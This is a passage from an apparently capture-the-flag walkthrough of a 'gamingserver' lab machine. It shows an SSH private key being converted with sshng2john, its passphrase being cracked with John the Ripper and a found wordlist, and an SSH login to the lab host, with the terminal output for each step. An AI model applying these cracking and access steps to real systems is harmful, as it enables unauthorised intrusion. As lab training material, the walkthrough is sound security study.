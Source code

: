```
python sshng2john.py secretKey > crackme
```

![key](https://i.imgur.com/kzxjJ4M.png)

**Make sure you remove the integer at the start of the file, i used the text editor nano to do it. The output on bottom is what you should have before cracking**

Awesome, now we have the secret key in a format that john can crack. 

Looking back on what we found before, we have a potential wordlist ``dict.lst`` that was in the uploads directory. Let's use that to try and crack the private key.

```
kali@kali:~/Desktop/thm/gamingserver$ sudo john --wordlist dict.lst crackme --format=SSH
```

```
kali@kali:~/Desktop/thm/gamingserver$ sudo john --wordlist dict.lst crackme --format=SSH
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
1g 0:00:00:00 DONE (2020-10-07 22:49) 100.0g/s 354600p/s 354600c/s 354600C/s paagal..sss
```

Password: ``letmein``

Awesome! Now let's try to ssh into the machine. Here is the format you would use to do this:

```
ssh <user>@<ip> -i <identity file>
```

Before we use the private key, we need to set permissions for it. Use the following command to do so:

```
kali@kali:~/Desktop/thm/gamingserver$ chmod 600 secretKey
```

Now let's try to login via ssh.

```
ssh john@10.10.242.31 -i secretKey
```

```
kali@kali:~/Desktop/thm/gamingserver$ ssh john@10.10.242.31 -i secretKey
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct  8 02:53:33 UTC 2020

  System load:  0.0               Processes:           98
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.242.31
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.
```